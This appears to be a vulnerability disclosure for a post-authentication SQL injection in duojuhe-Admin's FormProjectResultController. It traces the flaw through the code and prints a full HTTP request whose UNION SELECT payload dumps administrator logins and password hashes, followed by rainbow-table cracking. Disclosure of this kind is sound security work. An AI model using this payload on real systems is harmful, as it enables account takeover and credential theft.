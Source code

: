 # The FormProjectResultController API of duojuhe-Admin has a background SQL injection vulnerability.

duojuheAdmin version: <= v1.0.2 vulnerable to background SQL injection attacks, allowing attackers to obtain the account password information of the super administrator through low-privilege users.

#### Step 1:

Locate `com.duojuhe.coremodule.form.service.impl.FormProjectResultServiceImpl#queryFormProjectResultPageResList` and discover this function SQL statements are spliced without any filtering.

![2025-04-26 154408](./src/img/2025-04-26-154408.png)



#### Step 2:

After joining together the SQL statements directly call `com.Duojuhe.Coremodule.Form.Mapper.FormProjectResultMapper#queryFormProjectResultPageResList` SQL query interfaces.

![2025-04-26 162251](./src/img/2025-04-26-162251.png)

![2025-04-26 154903](./src/img/2025-04-26-154903.png)



#### Setp 3:

The lookup function `com.Duojuhe.Coremodule.Form.Service.Impl.FormProjectResultServiceImpl#queryFormProjectResultPageResList` is referenced within the function `com.Duojuhe.Coremodule.Form.Controller.FormProjectResultController#queryFormProjectResultPageResList`. Additionally, the route request to `/sysAdmin/formProjectResult/queryFormProjectResultPageResList` is analyzed, with the request method being specified as `POST`.

![2025-04-26 154010](./src/img/2025-04-26-154010.png)



#### Step 4:

To verify the vulnerability, first authenticate using the low-privilege user account "yunying1". Capture the HTTP request packet to extract the token from the request header and substitute it with the token in the payload packet. Subsequently, transmit the payload and inspect the response data packet. As a result, the account and password information of the super administrator were successfully retrieved from the response data.

Payload:

```
POST /sysAdmin/formProjectResult/queryFormProjectResultPageResList HTTP/1.1
Host: example.com
Content-Length: 317
Accept: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
token: SYSTEM_ADMIN6bdf3c67541180d1d111f24c12947d1f18d740d4a95668c9e03369c3c3b429e7
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.3.11:1024
Referer: http://192.168.3.11:1024/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"projectId":"111","extParams":"{\"like\":\"aaa' UNION ALL SELECT login_name,password,user_type_code,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL from system_user-- a\"}","extComparisons":"{\"like\":\"like\"}","startTime":"2025-04-01","endTime":"2025-04-02","statusCode":"","page":1,"rows":9}
```

##### 1.Log in to an ordinary user to get a token.

![2025-04-26 144221](./src/img/2025-04-26-144221.png)

![2025-04-26 144338](./src/img/2025-04-26-144338.png)

##### 2.Replace token and send payload.

![2025-04-26 144418](./src/img/2025-04-26-144418.png)

![2025-04-26 144517](./src/img/2025-04-26-144517.png)

##### 3.Get the password clear text of the super administrator through the rainbow table and log in successfully.

![2025-04-26 163147](./src/img/2025-04-26-163147.png)

![2025-04-26 163516](./src/img/2025-04-26-163516.png)
